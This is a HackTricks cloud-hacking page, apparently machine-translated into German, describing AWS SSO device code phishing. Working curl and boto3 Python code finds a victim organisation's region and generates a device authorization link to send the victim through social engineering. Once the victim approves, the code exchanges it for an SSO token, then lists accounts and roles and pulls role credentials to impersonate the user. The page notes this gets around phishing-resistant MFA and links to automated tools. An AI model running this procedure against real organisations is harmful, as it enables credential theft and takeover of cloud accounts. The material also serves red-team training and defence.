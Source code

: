 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Ursprünglich vorgeschlagen in [**diesem Blogbeitrag**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), ist es möglich, einen **Link** an einen Benutzer zu senden, der AWS SSO verwendet, der, wenn der **Benutzer akzeptiert**, dem Angreifer einen **Token zur Verfügung stellt, um den Benutzer zu impersonieren** und auf alle Rollen zuzugreifen, auf die der Benutzer im **Identity Center** zugreifen kann.

Um diesen Angriff durchzuführen, sind die Voraussetzungen:

* Das Opfer muss **Identity Center** verwenden
* Der Angreifer muss die **Subdomain** kennen, die vom Opfer verwendet wird `<victimsub>.awsapps.com/start`

Nur mit den vorherigen Informationen wird der **Angreifer in der Lage sein, einen Link an den Benutzer zu senden**, der, wenn er **akzeptiert** wird, dem **Angreifer Zugriff auf das AWS-Benutzer**konto gewährt.

### Angriff

1. **Finden der Subdomain**

Der erste Schritt des Angreifers besteht darin, die Subdomain herauszufinden, die das Opferunternehmen in ihrem Identity Center verwendet. Dies kann über **OSINT** oder **Raten + BF** erfolgen, da die meisten Unternehmen hier ihren Namen oder eine Variation ihres Namens verwenden werden.

Mit diesen Informationen ist es möglich, die Region zu ermitteln, in der das Identity Center konfiguriert wurde:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generiere den Link für das Opfer & sende ihn**

Führe den folgenden Code aus, um einen AWS SSO-Login-Link zu generieren, damit das Opfer sich authentifizieren kann.\
Für die Demo führe diesen Code in einer Python-Konsole aus und verlasse sie nicht, da du später einige Objekte benötigst, um das Token zu erhalten:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send den generierten Link an das Opfer unter Verwendung deiner großartigen Social Engineering Fähigkeiten!

3. **Warte, bis das Opfer es akzeptiert**

Wenn das Opfer **bereits bei AWS angemeldet** war, muss es nur die Berechtigungen akzeptieren. Wenn nicht, muss es sich **anmelden und dann die Berechtigungen akzeptieren**.\
So sieht das Prompt heutzutage aus:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Erhalte SSO-Zugriffstoken**

Wenn das Opfer das Prompt akzeptiert hat, führe diesen Code aus, um **ein SSO-Token zu generieren, das den Benutzer impersoniert**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Der SSO-Zugriffstoken ist **8 Stunden gültig**.

5. **Benutzer impersonifizieren**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing des unphishbaren MFA

Es ist interessant zu wissen, dass der vorherige Angriff **auch funktioniert, wenn ein "unphishbares MFA" (webAuth) verwendet wird**. Dies liegt daran, dass der vorherige **Workflow niemals die verwendete OAuth-Domain verlässt**. Anders als bei anderen Phishing-Angriffen, bei denen der Benutzer die Anmeldedomain ersetzen muss, ist im Fall des Gerätecode-Workflows vorgesehen, dass ein **Code von einem Gerät bekannt ist** und der Benutzer sich sogar auf einem anderen Gerät anmelden kann. Wenn die Eingabeaufforderung akzeptiert wird, kann das Gerät, nur durch **Kenntnis des ursprünglichen Codes**, **Anmeldeinformationen** für den Benutzer **abrufen**.

Für weitere Informationen dazu [**prüfen Sie diesen Beitrag**](https://mjg59.dreamwidth.org/62175.html).

### Automatische Werkzeuge

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Referenzen

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
